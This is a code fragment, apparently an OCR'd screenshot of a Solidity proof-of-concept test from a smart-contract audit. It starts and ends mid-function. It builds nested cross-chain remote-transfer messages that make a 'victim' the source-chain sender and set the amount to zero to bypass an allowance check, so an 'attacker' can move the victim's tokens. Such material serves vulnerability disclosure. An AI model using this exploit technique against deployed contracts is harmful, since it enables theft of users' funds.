 ```solidity
        });
        
        LZSendParam memory lzSendParamAToBVictim = LZSendParam({
            sendParam: sendParamAToBVictim,
            fee: feeAToBVictim,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        RemoteTransferMsg memory remoteTransferMsgVictim = RemoteTransferMsg({
            owner: makeAddr("victim"), // IMPORTANT: This will make the attack be triggered as the victim will become the srcChainSender in the destination chain
            composeMsg: bytes(""),
            lzSendParam: lzSendParamAToBVictim
        });

        uint16 index; // needed to bypass Solidity's encoding literal error
        // Create Toe Compose message for the victim
        bytes memory toeComposeMsgVictim = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsgVictim).length), // message length (0)
            index, // index
            abi.encode(remoteTransferMsgVictim), // message
            bytes("") // next message
        );

        // SECOND MESSAGE     B ---> A                 

        SendParam memory sendParamBToA = SendParam({
            dstEid: aEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 0, // IMPORTANT: This must be set to 0 to bypass the allowance check performed inside `_remoteTransferReceiver()`
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeBToA = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamBToA = LZSendParam({
            sendParam: sendParamBToA,
            fee: feeBToA,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        // Create remote transfer message
        RemoteTransferMsg memory remoteTransferMsg = RemoteTransferMsg({
            owner: makeAddr("victim"), // IMPORTANT: This will make the attack be triggered as the victim will become the srcChainSender in the destination chain
            composeMsg: toeComposeMsgVictim,
            lzSendParam: lzSendParamBToA
        });

        // Create Toe Compose message
        bytes memory toeComposeMsg = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsg).length), // message length
            index, // index
```